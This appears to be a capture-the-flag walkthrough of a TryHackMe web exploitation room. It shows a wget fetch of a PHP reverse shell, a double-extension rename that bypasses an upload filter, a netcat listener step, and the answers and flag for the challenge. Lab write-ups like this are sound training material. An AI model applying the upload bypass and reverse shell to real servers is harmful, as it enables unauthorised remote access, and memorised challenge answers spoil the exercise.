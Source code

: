 ```yaml
---
description: Web Exploitation - GET ; Upload ; Reverse Shell
---
```


# The Elf Strikes Back!

## Video

{% embed url="https://www.youtube.com/watch?v=F\_nTIX-q32k&" %}

## Rooms

[Upload vulns](https://tryhackme.com/room/uploadvulns)

[Intro to Shells](https://tryhackme.com/room/introtoshells)

## Resources

[PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

## Challenge

Open the site

![](../.gitbook/assets/image%20%2817%29.png)

> You have been assigned an ID number for your audit of the system: **`ODIzODI5MTNiYmYw`**
>
> http://10.10.236.79/?id=ODIzODI5MTNiYmYw

![](../.gitbook/assets/image%20%2840%29.png)

What string of text needs adding to the URL to get access to the upload page?

{% hint style="success" %}
?id=ODIzODI5MTNiYmYw
{% endhint %}

![](../.gitbook/assets/image%20%2829%29.png)

What type of file is accepted by the site?

{% hint style="success" %}
Image
{% endhint %}

Bypass the filter and upload a reverse shell.

```text
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

mv php-reverse-shell.php image.jpeg.php
```

Change the following parameters in the file

![](../.gitbook/assets/image%20%2839%29.png)

![](../.gitbook/assets/image%20%2846%29.png)

Tried /uploads, /images, /media, /resources

![](../.gitbook/assets/image%20%2833%29.png)

In which directory are the uploaded files stored?

{% hint style="success" %}
/uploads/
{% endhint %}

![](../.gitbook/assets/image%20%2822%29.png)

Activate your reverse shell and catch it in a netcat listener!

{% hint style="success" %}
No answer needed
{% endhint %}

![](../.gitbook/assets/image%20%2830%29.png)

What is the flag in /var/www/flag.txt?

{% hint style="success" %}
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}
{% endhint %}

